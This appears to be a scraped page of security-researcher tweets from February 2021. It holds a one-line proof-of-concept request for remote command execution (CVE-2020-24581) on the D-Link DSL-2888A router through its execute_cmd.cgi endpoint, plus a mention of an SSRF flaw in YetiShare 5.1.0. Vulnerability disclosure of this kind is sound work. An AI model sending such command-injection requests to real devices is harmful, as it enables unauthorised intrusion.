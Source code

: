 * https://github.com/vvb2060/Magica

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>23</code></td>
<td>Retweets: <code>174</code></td>
<td>Favorites: <code>584</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1358961456797024263 _at 2021-02-09 02:10:34_**
<blockquote>
D-Link DSL-2888A AU_2.31_V1.1.47ae55 RCE (CVE-2020-24581)

D-link DSL-2888A is a unified service router of China D-link company

PoC
http:/xxx/cgi-bin/execute_cmd.cgi?timestamp=1589333279490&amp;cmd=uname -a

https://t.co/o1vMXImUg4 https://t.co/1t3of3LUbs
</blockquote>

* https://reconshell.com/cve-2020-24581-d-link-dsl-2888a-remote-command-execution/

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+EtwAN5EUcAELTAg.jpg" alt="http://pbs.twimg.com/media/EtwAN5EUcAELTAg.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# numanturle
**https://twitter.com/numanturle/status/1358751105434402817 _at 2021-02-08 12:14:42_**
<blockquote>
YetiShare File Hosting Script 5.1.0 - 'url' Server-Side Request Forgery
https://t.co/iLt3UYHWuj
</blockquote>
